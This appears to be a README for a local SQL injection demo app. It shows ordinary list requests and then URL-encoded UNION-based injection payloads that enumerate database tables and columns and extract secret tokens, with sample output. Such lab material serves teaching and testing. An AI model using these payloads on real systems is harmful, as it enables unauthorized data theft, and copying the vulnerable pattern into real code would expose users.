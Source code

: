 # practical-sql-injection-test

## RUN

```shell
docker-compose up --build
```

## SQL Injection test

### Check standard
Listed public names

* http://localhost:8000/inject/list

```json
["hoge","foo","fuga"]
```

### Check standard item
Get set the item

* http://localhost:8000/inject/list/hoge

```json
["hoge"]
```

### Check not found
Check not found request

* http://localhost:8000/inject/list/foofoo

```json
{"detail":"Not found"}
```

### SQL Injection
#### Get tables
Get table list with injection

* http://localhost:8000/inject/list/'%20union%20all%20SELECT%20Table_name%20as%20TablesName%20from%20information_schema.tables%20where%20table_type%20%3D%20'BASE%20TABLE'%3B%20--%20'

```json
["public","secure"]
```

#### Get columns of secure table
Get columns of secure table

* http://localhost:8000/inject/list/'%20union%20all%20select%20column_name%20from%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D'secure'%3B%20--%20'

```json
["token"]
```

#### Get tokens in secure table
Get tokens in the secure table, the token is sensitive data

* http://localhost:8000/inject/list/'%20union%20all%20select%20token%20from%20secure%3B%20--%20'


```json
["c2dbf691-4275-47a5-a392-c64aa7fa3c2d","f4d78ea1-ded7-436e-8c89-984b93552d91","442744cc-62cb-41a5-b3b4-6bc90d9c5951"]
```
